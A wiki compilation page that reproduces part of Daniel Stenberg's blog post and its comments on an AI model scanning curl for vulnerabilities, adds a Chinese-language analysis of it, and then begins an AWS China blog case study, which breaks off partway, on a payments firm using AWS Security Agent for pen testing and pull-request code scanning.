This is just _one_ source code repository and maybe it is much better on other things. I can only tell and comment on what it found here.

## Still very good
But allow me to highlight and reiterate what I have said before: AI powered code analyzers are _significantly_ better at finding security flaws and mistakes in source code than any traditional code analyzers did in the past. All modern AI models are good at this now. Anyone with time and some experimental spirits can find security problems now. The [high quality chaos](https://daniel.haxx.se/blog/2026/04/22/high-quality-chaos/) is real.
Any project that has not scanned their source code with AI powered tooling will likely find huge number of flaws, bugs and possible vulnerabilities with this new generation of tools. Mythos will, and so will many of the others.
Not using AI code analyzers in your project means that you leave adversaries and attackers time and opportunity to find and exploit the flaws you don't find.

## How AI analyzers differ
*   They can spot when the comment says something about the code and then conclude that the code does not work as the comment says.
*   It can check code for platforms and configurations we otherwise cannot run analyzers for
*   It "knows" details about 3rd party libraries and their APIs so it can detect abuse or bad assumptions.
*   It "knows" details about protocols curl implements and can question details in the code that seem to violate or contradict protocol specifications
*   They are typically good at summarizing and explaining the flaw, something which can be rather tedious and difficult with old style analyzers.
*   They can often generate and offer a patch for its found issue (even if the patch usually is not a 100% fix).

## More details from the report
**Zero memory-safety vulnerabilities found.**
Methodology note: this review is hand-driven analysis using LLM subagents for parallel file reads, with every candidate finding re-verified by direct source inspection in the main session before being recorded. The CVE to variant-hunt mapping was built from curl's own vuln.json. No automated SAST tooling was used.
This outcome is consistent with curl's status as one of the most heavily fuzzed and audited C codebases. The defensive infrastructure (capped dynbufs everywhere, `curlx_str_number` with explicit max on every numeric parse, `curlx_memdup0` overflow guard, CURL_PRINTF format-string enforcement, per-protocol response-size caps, pingpong 64KB line cap) systematically closes the bug classes that would normally be productive in a codebase this size.
Coverage now includes: all minor protocols, all file parsers, all TLS backends' verify paths, http/1/2/3, ftp full depth, mprintf, x509asn1, doh, all auth mechanisms, content encoding, connection reuse, session cache, CLI tool, platform-specific code, and CI/build supply chain.

## AI finds existing kinds of errors
It should be noted that the AI tools find the usual and established kind of errors we already know about. It just finds new instances of them.
We have not seen any AI so far report a vulnerability that would somehow be of a novel kind or something totally new. They do not reinvent the field in that way, but they do dig up more issues than any other tools did before.

## More to find
These were absolutely not the last bugs to find or report. Just while I was writing the drafts for this blog post we have received more reports from security researchers about suspected problems. The AI tools will improve further and the researchers can find new and different ways to prompt the existing AIs to make them find more.
We have not reached the end of this yet.
I hope we can keep getting more curl scans done with Mythos and other AIs, over and over until they truly stop finding new problems.

## Credits
Thanks to Anthropic and Alpha Omega for providing the model, the tools and doing the scan for us. Thanks also to the individual who did the scan for us. Much appreciated!
Top image by [Jin Kim](https://pixabay.com/users/jinwon198308-7490911/?utm_source=link-attribution&utm_medium=referral&utm_campaign=image&utm_content=3038833) from [Pixabay](https://pixabay.com//?utm_source=link-attribution&utm_medium=referral&utm_campaign=image&utm_content=3038833)
Thanks for flying curl. It's never dull.
[AI](https://daniel.haxx.se/blog/tag/ai/)[cURL and libcurl](https://daniel.haxx.se/blog/tag/curl-and-libcurl/)[Security](https://daniel.haxx.se/blog/tag/security/)

# Post navigation
[Previous Post Approaching zero bugs?](https://daniel.haxx.se/blog/2026/04/30/approaching-zero-bugs/)

## 23 thoughts on "Mythos finds a curl vulnerability"
1.   **Pavan**says: [May 11, 2026 at 08:45](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27444) This was a fun read, thanks Daniel for the writeup. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27444#respond)
2.   **Ximon Eighteen**says: [May 11, 2026 at 09:10](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27445) Minor typo in "It "knows" details about protocols curl implements and can question details in the code that seem to violate or contract protocol specifications". I suspect that should be "contradict" not "contract". [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27445#respond)
    1.   **[Daniel Stenberg](https://daniel.haxx.se/)**says: [May 11, 2026 at 09:58](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27446) @Ximon: thanks, fixed! [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27446#respond)
3.   **[Demi Marie Obenour](https://devbydemi.com/)**says: [May 11, 2026 at 10:26](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27447) I think nghttp2, ngtcp2, and nghttp3 would be good next targets. All three seem to be maintained by one person, and all three are used by libcurl. And I suspect none of them gets anywhere near as much attention.
Other relevant libraries would be OpenSSL, c-ares, and libidn2. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27447#respond)
4.   **sin99xx**says: [May 11, 2026 at 13:27](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27449) curl flooding with "High Quality Report Spam" is crazy [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27449#respond)
5.   **The pedant**says: [May 11, 2026 at 13:52](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27450) gasp for breath 🙂 [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27450#respond)
6.   **[TimothyEricsson](https://canyouhack.me/)**says: [May 11, 2026 at 14:39](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27451) Excellent writeup. I'm not worried about Mythos, I'm worried about what comes next year! New exotic security findings, it'll be really cool to see what superintelligence can find. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27451#respond)
7.   **Yawar**says: [May 11, 2026 at 15:44](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27452) I remember the days when you were getting flooded with low-quality AI-assisted vulnerability spam. Those seemed like quite desperate days! Have we come out of that tunnel of despair? [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27452#respond)
8.   **Karl Ots**says: [May 11, 2026 at 17:30](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27453) Very useful report, thanks for sharing, Daniel!
Feels like a good reality check across all the FUD and speaks volumes on behalf of good hygiene and secure development practices.
I'm curious, can you share the cost token cost spent to find these 5 "confirmed" vulnerabilities? How did this compare to Codex Security? [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27453#respond)
    1.   **[Daniel Stenberg](https://daniel.haxx.se/)**says: [May 12, 2026 at 00:01](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27460) @Karl: we get all of this for free, thanks to friendly donors. I don't know the the spending not the real costs. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27460#respond)
9.   **Jacob**says: [May 11, 2026 at 18:44](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27454) Thanks for this insightful write up Daniel. Did the team that performed the scan and analysis mention a ball park on token usage? I have heard differing things in my circles. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27454#respond)
    1.   **[Daniel Stenberg](https://daniel.haxx.se/)**says: [May 12, 2026 at 00:00](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27459) @Jakob: nope, and I didn't ask and I frankly did not care. This access and all the tokens needed were provided as a gift. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27459#respond)
10.   **Tom**says: [May 11, 2026 at 20:07](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27455) Do you have the option of running it on an older code base to se what it would find, to do a pile for like comparison for when you used other AI issue checkers? [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27455#respond)
    1.   **[Daniel Stenberg](https://daniel.haxx.se/)**says: [May 11, 2026 at 23:59](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27458) @Tom: I'll leave such comparisons for someone else. I mostly care about improving curl. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27458#respond)
11.   **Bala**says: [May 11, 2026 at 20:19](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27456) Daniel– the individual who ran the scan for you, did they just do static code analysis or dynamic fuzzing? Not finding any critical vuln speaks very highly of Curl's though this might be an exception. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27456#respond)
12.   **Peter Tärning**says: [May 11, 2026 at 22:29](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27457) I think it's maybe not entirely fair to judge Mythos' capabilities based on a security scan for vulnerabilities in curl. Still, it's good that it actually found something that can be fixed.
 Maybe Anthropic/Mythos is just hype or marketing — I personally don't think so, at least judging by other reports. I'd rather say (again, just my own opinion) that curl is one of the few open source projects where deep expertise, dedication, and long-term commitment really pay off.
Feel free to compare Daniel (curl) with Linus (Linux). [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27457#respond)
13.   **William Kiely**says: [May 12, 2026 at 01:41](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27461) [Disclaimer: Layperson here.]
It sounds like Mythos was just prompted once to to run a scan and analysis on curl and then generate a report? If so, might Mythos find several more vulnerabilities with more or better prompting?
Naively, one hypothesis I'd have for the following is that the other tools may have been used better and/or more times than Mythos (if Mythos was in fact just prompted once to do the scan and generate a report), and that might be why Mythos found fewer bugs than those other tools:
> counted by the volume of issues found, all the previous AI tools we have used have resulted in larger bugfix amounts
Getting more insight into what the individual with the Mythos access did to generate this report and whether or not this was close to exhaustive use of Mythos to improve curl would be helpful.
> Five issues felt like nothing as we had expected an extensive list.
Hypothesis: Your expectations weren't off; the Mythos tool just wasn't used as effectively or exhaustively as it potentially could have been. Thoughts on this hypothesis? [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/?replytocom=27461#respond)
    1.   **meh**says: [May 13, 2026 at 13:22](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27469) Great post, thanks for your work!
@William Kiely:
As stated in the post, someone related to the Linux Foundation did the analysis.
 Without any further knowledge I would assume:
 First, this person is probably a well educated software developer or security researcher as well.
 And second, this person has probably done this for multiple FOSS projects, at least more often than Stenberg who would've only used it once on curl (also an assumption).
And while "curl is one of the most fuzzed and audited C codebases in existence" sounds like an excuse placed at the beginning of the report, curl is without any doubt one of the most fuzzed and audited codebases in existence, and you would not expect many bugs there. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27469#comment-27469)
14.   **Willy**says: [May 12, 2026 at 04:57](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27462) We've found a bunch of bugs and a few vulnerabilities in haproxy using AI-based tools, which if great, but honestly when reading this I'm having more and more doubts about Mythos being more than marketing hype. OK it might be more powerful than other models, but I think there's no point running something that big if you haven't first run other models locally first to catch all the more visible slack. And only once you're used to seeing only false positives or low-importance stuff that you don't care about, it might make sense to try bigger models like Mythos and see if they find anything different. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27462)
15.   **Hardik Cholera**says: [May 12, 2026 at 05:08](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27464) This was an awesome read, thank you Daniel.
Keep flying Curl! [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27464)
16.   **[Mathias Przybylowicz](https://www.linkedin.com/in/mathias-przybylowicz/)**says: [May 12, 2026 at 11:46](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27465) Great stuff Daniel – thanks for sharing.
 You & other people here might be interested in an article about the "Mythos effect" I published last week:
[https://mathiasprzybylowicz.substack.com/p/claude-mythos-software-security](https://mathiasprzybylowicz.substack.com/p/claude-mythos-software-security)
 The article itself is an exec summary, there's a 57-pages (yeah, it's crazy :D) downloadable monograph which might complement your views. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27465)
17.   **Iken**says: [May 12, 2026 at 14:18](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27466) Can you try again with GPT 5.5 Cyber?
[https://www.aisi.gov.uk/blog/our-evaluation-of-openais-gpt-5-5-cyber-capabilities](https://www.aisi.gov.uk/blog/our-evaluation-of-openais-gpt-5-5-cyber-capabilities) [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27466)
18.   **Wolfgang**says: [May 12, 2026 at 14:41](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27467) It is somewhat disappointing that the lavishly funded AlphaOmega organization first promises access to open source developers and then backpedals.
We do not know if Anthropic issues directives to only contact projects if issues have been found in order to avoid the situation that Mythos has not found anything at all in a specific project. That is probably one of the reasons for the embargo.
If only a fraction of the money that AlphaOmega receives went to open source authors, perhaps no external audits would be needed.
It also disturbs me that Anthropic/AlphaOmega get all the glory, money and publicity for finding a small amount of issues while the real open source authors get very little.
There are no NYT articles if the Curl authors find and quietly fix issues. [Reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comment-27467)

### Leave a Reply [Cancel reply](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#respond)
Your email address will not be published.Required fields are marked *
Comment *
Name *
Email *
Website
Time limit is exhausted. Please reload CAPTCHA.one 6 one 5 eight
Δ
This site uses Akismet to reduce spam. [Learn how your comment data is processed.](https://akismet.com/privacy/)

# Recent Posts

*   [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/)May 11, 2026
*   [Approaching zero bugs?](https://daniel.haxx.se/blog/2026/04/30/approaching-zero-bugs/)April 30, 2026
*   [Inspired](https://daniel.haxx.se/blog/2026/04/30/inspired/)April 30, 2026
*   [curl 8.20.0](https://daniel.haxx.se/blog/2026/04/29/curl-8-20-0/)April 29, 2026
*   [High-Quality Chaos](https://daniel.haxx.se/blog/2026/04/22/high-quality-chaos/)April 22, 2026
*   [Don't trust, verify](https://daniel.haxx.se/blog/2026/03/26/dont-trust-verify/)March 26, 2026

# Recent Comments

*   meh on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27469)
*   Wolfgang on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27467)
*   Iken on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27466)
*   [Mathias Przybylowicz](https://www.linkedin.com/in/mathias-przybylowicz/) on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27465)
*   Hardik Cholera on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27464)
*   Willy on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27462)
*   William Kiely on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27461)
*   [Daniel Stenberg](https://daniel.haxx.se/) on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27460)
*   [Daniel Stenberg](https://daniel.haxx.se/) on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27459)
*   [Daniel Stenberg](https://daniel.haxx.se/) on [Mythos finds a curl vulnerability](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/comment-page-1/#comment-27458)

## curl, open source and networking

Sponsor me:[on GitHub](https://github.com/users/bagder/sponsorship)
Follow me: [@bagder](https://mastodon.social/@bagder)
Keep up: [RSS-feed](https://daniel.haxx.se/blog/feed/)
Email: [weekly reports](https://lists.haxx.se/listinfo/daniel)
May 2026| M | T | W | T | F | S | S |
|| --- | --- | --- | --- | --- | --- | --- |
||  | 1 | 2 | 3 |
|| 4 | 5 | 6 | 7 | 8 | 9 | 10 |
|| [11](https://daniel.haxx.se/blog/2026/05/11/) | 12 | 13 | 14 | 15 | 16 | 17 |
|| 18 | 19 | 20 | 21 | 22 | 23 | 24 |
|| 25 | 26 | 27 | 28 | 29 | 30 | 31 |
|[« Apr](https://daniel.haxx.se/blog/2026/04/)
[Privacy](https://daniel.haxx.se/blog/privacy-policy/)[Proudly powered by WordPress](https://wordpress.org/)


## 深度分析
Daniel Stenberg 关于 Mythos 扫描 curl 代码库的亲身经历揭示了 AI 安全分析工具的现实状态：
**1. "极度危险"宣称的实证检验**
Anthropic 在 2026 年 4 月宣称 Mythos "极度擅长发现源代码中的安全缺陷"，引发全球关注。但对 curl 这个拥有 176,000 行 C 代码、已发布 188 个 CVE 的极度成熟代码库进行实际扫描后，Mythos 报告了 5 个"确认"漏洞，经人工审核后只有 1 个确实是漏洞（严重性为"低"）。这表明媒体炒作与实际能力存在显著差距。
**2. AI 分析工具的差异化价值**
尽管 Mythos 在 curl 上的表现不如预期，Daniel 强调 AI 代码分析器"显著优于"传统静态分析工具。目前 AISLE、Zeropath、Codex Security 等工具已在过去 8-10 个月内为 curl 贡献了 200-300 个错误修复。这种"高质量混乱"意味着 AI 工具正在改变安全研究的格局，使更多漏洞能被及时发现。
**3. 成熟代码库的"天花板效应"**
curl 可能是被审计最充分的 C 代码库之一——经过 OSS-Fuzz、Coverity、CodeQL 和多次付费审计。这种程度的 fuzzing 和审查意味着"热路径"（HTTP/1、TLS、URL 解析核心）中几乎不可能发现新问题。Mythos 的发现集中在边缘组件，印证了这一点。
**4. AI 工具仍会发现已知类型的错误**
Daniel 明确指出："我们尚未看到任何 AI 报告某种全新或完全新颖的漏洞。它们不会重新发明这个领域，只是挖掘出比以前工具更多的已知类型问题。"这提醒我们，AI 是强大的力量倍增器，但并非安全问题的银弹。
**5. 开源生态与 AI 安全的复杂关系**
Linux Foundation 的 Alpha Omega 项目试图为开源项目提供 Mythos 访问，但实际执行中遇到延迟，最终只能提供间接扫描服务。这一案例反映了AI 安全工具从研究到实际可用的转化过程中存在的障碍。

## 实践启示
**对于安全团队：**
1. **不要被 AI 安全的营销炒作迷惑** — 对任何声称"革命性"的 AI 安全工具，将其置于你已有的工具链中进行验证。Daniel 的经验表明，多个工具组合使用（fuzzing + SAST + AI）比依赖单一"神奇"工具更有效。
2. **成熟代码库需要更深入的扫描** — 如果你的项目已经经过多年安全审计，AI 工具可能会发现一些遗漏，但更可能是边缘组件中的低危问题。调整预期，专注于建立持续的扫描文化而非寻找"圣杯"。
3. **AI 工具评审应作为人工评审的补充而非替代** — curl 团队使用 AI 评审 PR，这帮助他们避免合并错误，但人工审核仍然必不可少。AI 能发现人类容易忽略的模式，但理解上下文和业务逻辑仍需要人类专家。
**对于开发者：**
1. **建立纵深防御而非依赖单一安全措施** — curl 的成功很大程度上归功于其系统性的防御基础设施（capped dynbufs、curlx_str_number、curlx_memdup0 溢出保护等）。即使 AI 工具变得更强大，这些基本工程实践仍然不可或缺。
2. **定期使用 AI 工具扫描代码** — 如果你尚未在项目中集成 AI 代码分析，现在是好时机。任何项目都能从扫描中受益——问题只在于严重程度。早期采用者已经修复了"容易发现"的问题，所以扫描越晚，剩余问题可能越少。
3. **关注工具的实际效果而非宣传** — Daniel 选择分享完整的实验细节，包括失败和成功，这是一种对社区负责的态度。评估工具时，寻找这类客观的、来自实践者的报告。
**对于开源维护者：**
1. **主动联系 AI 安全计划** — Alpha Omega 项目等倡议为开源项目提供免费的安全扫描。即使实际获得访问可能延迟，登记参与仍值得尝试。
2. **记录你的安全实践** — curl 详细的防御基础设施和 188 个 CVE 的历史，使其成为测试 AI 工具的有价值基准。你的项目可能不需要如此复杂的记录，但知道什么已被测试过有助于评估新工具的结果。
3. **平衡宣传与实际价值** — 如果你的项目因 AI 工具发现了漏洞而获得关注，保持现实态度。低严重性漏洞的过度宣传可能弊大于利；专注于实际改进代码安全。

## 相关实体
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [Ath Agent Trust Handshake Protocol](https://github.com/QianJinGuo/wiki/blob/main/entities/ath-agent-trust-handshake-protocol.md)
- [Checkmarx Jenkins Plugin Compromised In New Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)

---

## Ch12.010 飞来汇借助 AWS Security Agent 构建跨境支付应用的智能安全防线

> 📊 Level ⭐⭐ | 33.9KB | `entities/飞来汇借助-aws-security-agent-构建跨境支付应用的智能安全防线.md`

# 飞来汇借助 AWS Security Agent 构建跨境支付应用的智能安全防线
source: rss
source_url: https://aws.amazon.com/cn/blogs/china/security-agent-build-payment-application-intelligent-security/
ingested: 2026-05-28
feed_name: AWS China Blog
source_published: 2026-05-27T08:26:50Z
---

# 飞来汇借助 AWS Security Agent 构建跨境支付应用的智能安全防线

## 飞来汇借助 AWS Security Agent 构建跨境支付应用的智能安全防线

摘要：飞来汇（Flyway）是一家全栈式跨境服务数字科技平台，专注于跨境资金流痛点，为出海企业提供”收、付、融、兑”全链路解决方案。我们将整套支付与清结算服务部署在亚马逊云科技（AWS）全球基础设施之上，依托 AWS 先进的安全服务与合规认证，打造更快、更简单、更安全的跨境支付体验。
作为 AWS Security Agent 的早期采用者，飞来汇将其无缝集成到 GitHub 代码仓库与 CI/CD 流程中，构建了一套”全量渗透测试 + 增量代码扫描”的双轮驱动应用安全方案，将原本以”周”为单位的渗透测试节奏压缩到”小时”级别，并在每一次代码提交后的几分钟内即可获得安全反馈。本文将分享飞来汇使用 AWS Security Agent 的真实实践与体感数据，希望为同样关注 AppSec 体系建设的金融科技与出海企业客户提供一些有价值的落地经验。

* * *

## **一、引言**

飞来汇（Flyway）是一家全栈式跨境服务数字科技平台，专注于跨境资金流痛点，为出海企业提供”收、付、融、兑”全链路解决方案。通过部署在亚马逊云科技全球基础设施之上，飞来汇确保了跨境支付服务的全球覆盖与低延迟体验；结合 AWS 先进的安全服务与合规认证，我们助力出海企业高效拓展全球市场，让全球贸易”跨无止境”。

支付业务对安全的要求是天然苛刻的——任何一个未被发现的越权漏洞、逻辑漏洞，都可能直接对应资金风险与合规事件。在引入 [AWS Security Agent](https://aws.amazon.com/security-agent/) 之后，我们的应用安全（AppSec）团队第一次拥有了”7×24 持续运行、按需触发”的智能渗透测试能力，并把代码安全审查直接前移到了开发者的 Pull Request 阶段。本文将介绍飞来汇 AWS Security Agent 落地实践，并分享我们在渗透测试与增量代码扫描两大场景下的真实体验。

## **二、跨境支付行业的安全挑战**

跨境支付是金融科技中风险密度最高的细分赛道之一。在飞来汇的”收、付、融、兑”业务体系中，我们直面以下四类典型的安全挑战：

### 2.1 强监管与多地合规要求

跨境支付涉及多国/多地区的金融牌照与合规框架，例如 PCI DSS、SOC 2、ISO 27001，以及不同司法辖区针对反洗钱（AML）、KYC、数据出境的监管要求。这意味着我们的应用安全测试不仅要”发现漏洞”，还需要周期性、可追溯地执行，并能够清晰记录和展现每一次的测试结果历史。

### 2.2 业务逻辑漏洞远比通用漏洞更致命

支付系统中真正”要命”的漏洞，往往不是 SQL 注入或 XSS 这类通用 OWASP 漏洞，而是隐藏在业务流程中的越权访问和业务逻辑漏洞——例如：商户 A 通过篡改请求参数查询到商户 B 的资金流水、退款接口在某种状态机组合下被重复调用、汇兑接口在并发条件下被绕过风控阈值等。这类问题通常需要资深安全工程师结合业务理解，手动构造多步骤攻击链才能复现，传统自动化扫描器很难触达。

### 2.3 渗透测试节奏跟不上发版节奏

传统人工渗透测试通常需要数天到一周才能完成一轮，与飞来汇的发布节奏和安全合规要求不匹配。

### 2.4 应用代码安全左移落地难

我们一直希望把代码安全审查”左移”到 Pull Request 阶段，但传统 SAST 工具普遍存在误报率高、与业务上下文脱节的问题，开发者很快就会对其结果”麻木”，最终导致工具沦为流水线上的一个”绿勾”。如何让安全审查的结果可读、可信、可执行，是我们在工程实践中持续思考的问题。

## **三、AWS Security Agent 简介**

[AWS Security Agent](https://aws.amazon.com/security-agent/) 是亚马逊云科技推出的一款 AI 驱动的 frontier agent，能够在整个软件开发生命周期中主动保护应用安全。它通过部署一组专门化的 AI 子代理，相互协作完成”侦察—漏洞分析—利用验证—修复建议”的完整链路，能力覆盖按需渗透测试、代码安全审查与设计安全审查三大场景。

### 3.1 核心能力一览

能力

说明

按需渗透测试（On-demand Penetration Testing）

针对 Web 应用与 API，按 OWASP Top 10 与业务逻辑漏洞构造多步骤攻击场景，验证可利用性

代码安全审查（Code Security Review）

在 GitHub Pull Request 中对增量代码进行扫描，输出可直接采纳的修复建议

设计安全审查（Design Security Review）

上传架构/设计文档即可完成基于组织安全要求的合规校验，将安全左移到设计阶段

全仓库代码扫描（Full Repository Scanning）

对存量代码做全量扫描，建立漏洞基线

可操作的修复建议（Actionable Fixes）

每一个漏洞均带有可复现的攻击路径、影响分析以及面向开发者语言的修复代码片段

### 3.2 多智能体协作架构

与传统 SAST/DAST 工具不同，AWS Security Agent 内部由多个具备不同专长的 AI 子代理组成，例如包括了负责”绘制攻击面”的子代理，负责”漏洞挖掘与分析”的子代理，负责”漏洞验证”的子代理。这种多智能体协作机制让每一个代理可以专注于特定的工作，从而最大化每一个子代理的工作效果，同时又能够通过相互协作来发现多漏洞利用攻击链这种复杂的漏洞场景，比传统扫描器具备明显优势。

### 3.3 与开发流程的原生集成

AWS Security Agent 提供了完整的 API/SDK，并原生支持 GitHub / GitHub Enterprise 集成。我们可以从 CI/CD 流水线中触发渗透测试，把扫描结果回写到 PR 评论；同时支持 Cross-Account VPC，能够穿透多账号架构对真实环境进行测试，这对于多账号隔离部署的金融科技公司来说至关重要。

## **四、飞来汇的 Security Agent 解决方案**

结合飞来汇自身的技术栈与 AppSec 团队规模，我们围绕 AWS Security Agent 构建了一套以\*\*”双轮驱动 + 自动闭环”\*\*为核心理念的应用安全方案。

### 4.1 整体架构

整套方案由三条主线构成：

*   左侧——开发态：增量代码扫描线。开发者在 GitHub 上提交 Pull Request 后，AWS Security Agent 自动对增量变更代码进行扫描，将带有上下文与修复建议的评论回写到 PR，开发者在合入前完成处置。
*   中间——预发态：全量代码扫描线。每周对核心仓库执行一次全量代码扫描，作为长期基线，识别历史遗留风险。
*   右侧——运行态：按需渗透测试线。每周/每个大版本上线前，基于 Cross-Account VPC 对预发环境的 Web 应用与 API 触发一次按需渗透测试，重点关注 OWASP Top 10 与业务逻辑漏洞。

三条主线共享同一个 AWS Security Agent 项目空间，由 AppSec 工程师做二次复核与流转。

### 4.2 增量代码扫描：让安全反馈与 Code Review 同节拍

我们把 AWS Security Agent 的代码安全审查能力直接接入 GitHub。具体做法是：

1\. 在 AWS Security Agent 控制台中授权 GitHub App，并选择需要受保护的核心仓库。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-1.png)

\[图1\]

2\. 在 AppSec 工作流中默认10条常见安全要求，支持自定义配置组织级安全要求（Organizational Security Requirements），例如”所有涉及资金流水查询的接口必须做商户级越权校验”等业务语义规则。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-2.png)

\[图2\]

3\. 开发者在创建 Pull Request 后，AWS Security Agent 自动对变更代码进行分析，并以评论的形式给出风险点与修复建议，AppSec 工程师可在关键问题上介入。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-3.png)

\[图3\]

真实使用体感：在我们日常的 PR 流程中，开发者推送几个文件之后，通常等待 1~2 分钟（甚至不到）即可看到扫描结果。这个延迟基本对齐了开发者切回 IDE 写下一个改动的时间窗口，几乎不会打断节奏。这也是我们后续判断”增量代码扫描会被高频使用”的最重要依据——因为它真正做到了\*\*”无感入侵开发流程”\*\*。

### 4.3 按需渗透测试：把”周级别”压缩到”小时级别”

按需渗透测试是 AWS Security Agent 给我们带来最显著体感变化的能力。我们的接入方式如下：

1\. 在 AWS Security Agent 控制台中创建一个针对预发环境的渗透测试目标（Target），录入待测的 Web 应用与 API 列表，并通过 Cross-Account VPC 打通账号间网络，让 Agent 能够真实地访问到目标。

[](https://d2908q01vomqb2.cloudfront.net/472b07b9fcf2c2451e8781e944bf5f77cd8457c8/2026/05/27/security-agent-build-payment-application-intelligent-security-4.png)

\[图4\]

